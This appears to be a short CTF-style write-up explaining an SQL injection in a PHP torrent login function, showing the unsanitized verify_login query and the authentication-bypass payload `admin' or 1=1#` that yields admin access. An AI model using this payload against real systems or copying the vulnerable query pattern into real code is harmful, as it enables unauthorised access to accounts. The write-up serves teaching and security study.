 ### SQL Injection in torrent login

From /var/www/torrent.login.php, we can find a verify_login function where an SQL query is made to verify the login.

```
function verify_login($username, $password) {
/* verify the username and password.  if it is a valid login, return an array
 * with the username, firstname, lastname, and email address of the user */

        if (empty($username) || empty($password)) return false;

        $qid = db_query("
        SELECT userName, password, privilege, email
        FROM users
        WHERE userName = '$username' AND password = '" . md5($password) . "'
        ");

        return db_fetch_object($qid);
}
```
We realize that the username and password parameters are not properly sanitized so we are able to do an SQL injection.

```
$user = verify_login($_POST["username"], $_POST["password"]);
```

Using ```admin' or 1=1#``` as our username and password would mean that we are essentially executing the following SQL query (which eventually give us access to the admin page):

```
SELECT userName, password, privilege, email FROM users WHERE userName = 'admin' or 1=1 #' AND password = '" . md5($password) .
```

